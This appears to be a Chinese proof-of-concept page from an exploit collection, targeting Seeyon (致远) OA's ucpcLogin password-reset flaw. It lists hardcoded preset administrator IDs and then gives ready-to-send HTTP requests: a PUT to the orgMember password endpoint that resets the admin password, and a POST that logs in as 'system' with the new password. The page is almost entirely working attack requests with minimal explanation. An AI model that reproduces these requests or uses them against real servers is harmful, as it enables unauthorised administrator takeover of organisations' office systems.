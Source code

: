 ## 致远OA-ucpcLogin密码重置漏洞



```
/**     * 系统管理员预置ID     * @deprecated 角色角色化后，废弃不再使用     */
 public static final Long SYSTEM_ADMIN_ID = -7273032013234748168L;
/**     * 审计管理员预置ID     * @deprecated 角色角色化后，废弃不再使用，8.1后可能删除
*/    public static final Long AUDIT_ADMIN_ID = -4401606663639775639L;
/**     * 集团管理员预置ID     * @deprecated 角色角色化后，废弃不再使用，8.1后可能删除     */
  public static final Long GROUP_ADMIN_ID = 5725175934914479521L;
```

构造根据预制id数据包获取登录名

```
PUT /seeyon/rest/orgMember/-7273032013234748168/password/share.do HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=3891CB3E3CA435C599001E4F03A335B0; loginPageURL=
```

![image](https://github.com/wy876/POC/assets/139549762/c5cf82fe-e0ac-413c-9dc7-b2a0f9e15e9c)

## 构造数据包更改密码

```
POST /seeyon/rest/authentication/ucpcLogin?login_username=system&login_password=share.do&ticket= 
```
![image](https://github.com/wy876/POC/assets/139549762/6b5f019d-6a30-42d7-9f8b-787a072b5848)

![image](https://github.com/wy876/POC/assets/139549762/05232b2a-c6a5-41ef-b695-0714a28f567e)
